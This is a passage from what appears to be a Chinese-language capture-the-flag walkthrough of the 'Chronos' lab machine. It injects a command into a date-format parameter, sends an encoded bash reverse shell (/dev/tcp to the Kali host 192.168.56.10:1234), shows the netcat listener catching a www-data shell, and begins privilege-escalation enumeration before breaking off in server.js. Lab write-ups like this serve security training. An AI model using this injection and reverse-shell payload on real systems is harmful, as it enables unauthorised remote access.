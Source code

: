     可以发现将`ls`的结果打印出来了
    

### 尝试获得shell

1. 将参数修改为反弹`shell`的命令（`192.168.56.10`是`kali`）
    
    PS:突然发现较新的靶机都不能直接通过`nc`来反弹`shell`，需要通过`bash`来反弹
    
    ```python
    '+Today is TESTTEST %A, %B %d, %Y %H:%M:%S.' | bash -c "bash -i >& /dev/tcp/192.168.56.10/1234 0>&1"
    ```
    
    编码后得到
    
    ```python
    2XHxFqgRgHdnuw7ymykTgiqjFXsf7ew4NHNWzh32oWPcBSFmAv79MRw4ezcAFwUUe6V4GMCkMRUE7T3Lc6JBiNLaBMPiw9rTgpKdigK4HxoDBDDYcfF7bTLgcaRMj63ozzHBCUA6M
    ```
    
2. `kali`开启监听，然后抓包将参数替换，可以发现已经反弹成功了
    
    ```python
    ┌──(root㉿kali)-[~/Desktop]
    └─# nc -lvp 1234                                
    listening on [any] 1234 ...
    
    connect to [192.168.56.10] from chronos.local [192.168.56.7] 41632
    bash: cannot set terminal process group (808): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@chronos:/opt/chronos$ 
    www-data@chronos:/opt/chronos$ 
    ```
    

## 提权

1. 查看权限
    
    ```python
    www-data@chronos:/opt/chronos$ whoami
    www-data
    www-data@chronos:/opt/chronos$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    www-data@chronos:/opt/chronos$ uname -a
    Linux chronos 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
    ```
    
2. 寻找突破点
    - `SUID`，无可利用
    - `/opt/`下存在`chronos-v2`文件夹（靶机下存在这些文件夹，大概是突破口了），查看其后端文件夹`/opt/chronos-v2/backend`
        
        存在`server.js` 
        
        ```python
        # server.js 
        const express = require('express');
        const fileupload = require("express-fileupload");
        const http = require('http')
        